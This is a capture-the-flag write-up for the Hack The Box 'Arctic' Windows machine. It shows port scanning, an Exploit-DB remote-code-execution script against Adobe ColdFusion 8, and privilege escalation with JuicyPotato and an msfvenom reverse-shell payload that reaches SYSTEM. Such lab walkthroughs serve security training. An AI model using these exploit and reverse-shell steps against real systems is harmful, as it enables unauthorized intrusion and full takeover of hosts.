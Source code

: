 ```yaml
---
title: "HTB Arctic"
permalink: /writeups/arctic
location: default
---
```


# HTB Arctic

**Machine Information**

	IP : 10.10.10.11
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.11 -- -sC -sV -Pn
```

This should reveal three open ports: `135`, `8500`, and `49154`

```
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Investigate each of the ports and there should be a web server running on port 8500.

<http://10.10.10.11:8500/>

The default page is an `Index of /` and allows directory listing so we can explore the available files. Exploring the directories will reveal an Adobe ColdFusion 8 Administrator panel at the following location:

<http://10.10.10.11:8500/CFIDE/administrator/>

### Getting a Foothold

**Adobe ColdFusion Exploit**

Check for known exploits using `searchsploit`.

```
searchsploit coldfusion 8
```

This will reveal a python script that we can use for remote code execution.

```
Adobe ColdFusion 8 - Remote Command Execution (RCE) | cfm/webapps/50057.py
```

https://www.exploit-db.com/exploits/50057

Open the exploit and update the `LHOST`, `LPORT`, and `RHOST` parameters to the appropriate values. Start a new `netcat` listener and run the exploit.

```
python3 50057.py
```

Success!

```
C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

The user flag can be found in the following directory:

```
C:\Users\tolis\Desktop\user.txt
```

### Privilege Escalation

Checking our users privileges with `whoami /priv` reveals that we have the `SeImpersonatePrivilege` which may be exploitable.

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

For this we need to upload the `JuicyPotato.exe` exploit that can be downloaded from the following link:

> https://github.com/ohpe/juicy-potato/releases/tag/v0.1

We will also need a reverse shell payload that can be generated using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Once both of these are on the target machine start a new `netcat` listener and run the exploit.

```
.\JuicyPotato.exe -t t -p .\shelly.exe -l 5837
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```

